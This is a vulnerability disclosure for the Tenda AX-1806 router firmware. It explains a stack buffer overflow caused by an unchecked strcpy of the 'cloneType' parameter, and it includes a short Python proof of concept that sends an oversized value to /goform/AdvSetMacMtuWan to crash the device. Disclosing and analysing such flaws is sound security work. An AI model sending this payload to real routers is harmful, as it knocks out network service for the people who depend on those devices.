


# Tenda Vulnerability

Vendor:Tenda

Product:AX-1806

Version:v1.0.0.1(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack Overflow

Author:Shuhao Shen

Mail:shenshuhao@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the function sub_65B5C, the cloneType value is obtained from user-controlled input via v4 = (const char *)sub_295C8(a1, "cloneType", "0") and is then copied into the local buffer v12 using strcpy(v12, v4). The buffer v12 is a fixed-size stack buffer of 32 bytes (char v12[32]), while strcpy performs no bounds checking on the source string. Because the "cloneType" parameter can be supplied by the user without any enforced length restriction, an attacker can provide an excessively long value that causes strcpy to write past the end of v12. This results in a stack-based buffer overflow, corrupting adjacent stack memory and potentially overwriting other local variables or control data, which can lead to a process crash and cause a Denial of Service condition.

<div  align="center"></div>


## PoC
In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/AdvSetMacMtuWan"

cloneType = "A"*7000
data = {
"cloneType": cloneType
}

r = requests.post(url, data=data)
print(r.status_code, r.text)

```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>